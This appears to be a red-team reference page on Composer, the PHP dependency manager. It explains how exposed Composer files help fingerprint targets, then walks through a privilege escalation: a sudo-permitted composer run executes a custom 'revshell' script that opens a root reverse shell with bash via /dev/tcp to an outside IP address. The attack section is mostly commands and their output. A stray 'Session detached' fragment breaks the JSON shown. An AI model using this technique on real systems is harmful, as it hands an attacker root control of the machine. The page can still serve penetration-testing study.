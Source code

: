 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Composer

Composer is a dependency management tool for PHP that automates the installation, updating, and autoloading of external libraries used in a project. It allows developers to define project dependencies in a `composer.json` file and ensures consistent environments by resolving and installing compatible package versions. Composer fetches packages from [Packagist.org](https://packagist.org/), the default repository, and places them into the `vendor/` directory, alongside an autoloader that integrates them into the application.

In the context of Red Team operations, Composer is a key indicator of a modern PHP project structure. The presence of a `composer.lock` or `vendor/` folder helps fingerprint the application’s internal components and their versions. Misconfigured or exposed Composer files may leak sensitive metadata about the application’s framework, libraries, and potential vulnerable packages, aiding in targeted exploitation.

## Custom scripts

Based on: [GTFOBins](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/) and [official documentation](https://getcomposer.org/doc/articles/scripts.md#defining-scripts).

{% code overflow="wrap" %}
```bash
$ sudo -l
User x7331 may run the following commands on kali:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/laravel *
    
$ ls -la /var/www/html/laravel/composer.json
-rwxr-xr-x 1 x7331 x7331 1645 Sep 14  2023 /var/www/html/laravel/composer.json

$ cat composer.json
{!] Session detached ⇲
  "scripts": {
        "revshell": [
                "/usr/bin/bash -c \"/usr/bin/bash -i >& /dev/tcp/192.168.45.170/80 0>&1\""
        ]
   }
}

$ sudo /usr/bin/composer --working-dir\=/var/www/html/laravel run-script revshell
Do not run Composer as root/super user! See https://getcomposer.org/root for details
Continue as root/super user [yes]? yes
> /usr/bin/bash -c "/usr/bin/bash -i >& /dev/tcp/192.168.45.170/80 0>&1"
```
{% endcode %}

